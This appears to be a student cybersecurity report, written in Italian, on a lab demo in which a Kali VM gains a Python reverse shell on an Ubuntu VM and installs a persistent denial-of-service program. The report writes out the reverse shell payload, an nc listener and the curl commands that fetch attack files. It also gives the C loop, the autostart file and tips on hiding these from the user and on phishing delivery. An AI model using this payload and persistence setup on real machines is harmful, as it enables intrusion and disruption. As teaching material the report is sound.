




## Huseinovic Elma
## Cybersecurity report 

# Reverse shell and Denial of service with persistence on an Ubuntu virtual machine

## Introduction

L'obiettivo della demo è di creare un Denial of Service persistente su una macchina virtuale Ubuntu, che quindi sarà la macchina attaccata, mentre per l'attaccante è stata utilizzata una macchina virtuale Kali. Per fare ciò, per prima cosa viene creata una reverse shell per permettere alla macchina attaccante di agire liberamente sulla macchina Ubuntu. 

## Preparazione Kali
Per prima cosa sono stati creati tutti i file necessari su Kali.
Per primo il file `reverseshell.sh`, dove è presente il [payload](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#perl) in python 
```js
export RHOST="10.0.2.2";
export RPORT=4444;
python3 -c 'import socket,os,pty;
s=socket.socket();
s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));
[os.dup2(s.fileno(),fd) for fd in (0,1,2)];
pty.spawn("/bin/sh")&'
```
che permette di creare una reverse shell in background quando eseguito sulla macchina attaccata.
Poi, è stato creato un semplicissimo programma in C, `dos.c`, contenente un ciclo while infinito che continua ad aprire finestre di terminale:
```js
#include <stdlib.h>
int main(){
    while(1){
        system("gnome-terminal");
    }
    return 0;
}
```
è stato scelto di aprire il terminale per semplicità, è possibile farlo con altre applicazioni e anche aprirne diverse, creando un vero e proprio crash della macchina. 
Infine è stato creato il file `dos.desktop` 
```js
[Desktop Entry]                  
Type=Application                
Exec=/home/ubuntu/dos            
Hidden=false                     
NoDisplay=false
X-GNOME-Autostart-enabled=true
Name[en_US]=dos
Name=dos
Comment[eu_US]=
Comment=
```
che verrà utilizzato per inserire il programma che esegue il Denial of Service tra le applicazioni che si aprono all'avvio della macchina. 
I flag Hidden e NoDisplay, per evidenziare il Denial of Service, sono stati messi a false, se vengono settati a true, il programma viene eseguito senza che l'utente si accorga di nulla, quindi la macchina viene rallentata senza la riesca a capire il motivo.
Una volta creati i file, è stata creato anche un web file server sulla porta 80, utilizzando il comando 
`python -m http.server 80`



A questo punto, l'unica cosa che rimane da fare, è mettersi in ascolto sulla porta predefinita, per fare ciò è stato utilizzato il comando `nc -lvp 4444 -n`

# Reverse shell 

Per creare la reverse shell, è necessario che l'utente sulla macchina attaccata venga convinto a scaricare ed eseguire il file `reverseshell.sh`, questo potrebbe essere fatto creando una mail di phishing e convincendolo, per esempio, che si tratti di una patch di sicurezza. Nella demo, viene utilizzando il comando `curl -O "http://10.0.2.2/demo/reverseshell.sh"`, che scarica il file dal web file server creato su Kali, a questo punto si esegue il comando `sudo chmod +x reverseshell.sh` che aggiunge il permesso di esecuzione al file con privilegi di amministratore, infine viene eseguito il file con `./reverseshell.sh`. 
A questo punto, essendo la reverse shell eseguita in background, l'utente su Ubuntu può continuare ad utilizzare il terminale normalmente, senza accorgersi di nulla, ma in realtà è connesso sulla porta 4444 alla macchina Kali attraverso una reverse shell.



# DoS e persistence

Utilizzando la reverse shell, ora, è facile scaricare il programma `dos.c` e il file `dos.desktop` dal web file server di Kali utilizzando sempre il comando `curl`:
`curl -O "http://10.0.2.2/demo/dos.c"`
`curl -O "http://10.0.2.2/demo/dos.desktop"`
ora, il programma dos.c viene compilato utilizzando il comando `ggc -o dos dos.c`, viene creato, così, l'eseguibile. Prima di eseguirlo, però, bisogna creare persistenza: il file `dos.desktop` viene spostato in `.config/autostart`, per fare ciò viene utilizzato il comando `mv`, che deve, però, essere eseguito con privilegi di amministratore, quindi utilizzando `sudo`, questo implica che l'attaccante debba conoscere la password dell'account. Una volta che `dos.desktop` viene spostato, il programma `dos` è visibile in Startup Application Preferences, che mostra i programmi che vengono eseguiti allo startup della macchina. 



quindi, ogni volta che avverrà l'accesso alla macchina, verranno aperte in loop innumerevoli finestre di terminale, rendendolo inutilizzabile. 



Inoltre, un'altra feature interessante è che, provando a rimuovere `dos` utilizzando l'applicazione Startup Application Preferences e riavvinado la macchina, il programma viene eseguito comunque, questo perchè non viene rimosso il file `dos.desktop` presente in `.config/autostart`, il quale continua rimettere il programma tra le applicazioni da eseguire all'avvio. 
Per fermare questo attacco si potrebbe pensare di cancellare l'eseguibile `dos`, ma nel caso in cui questo venga a sua volta posto in una cartella non facilmente raggiungibile, questo non si potrebbe fare, soprattutto se non si sa cosa sta succedendo e se la macchina comincia a crashare. 
In alternativa si potrebbe pensare si cancellare il file dos.desktop, ma essendo collocato in una directory nascosta di default ed essendo il terminale non utilizzabile, questo potrebbe risultare difficile.

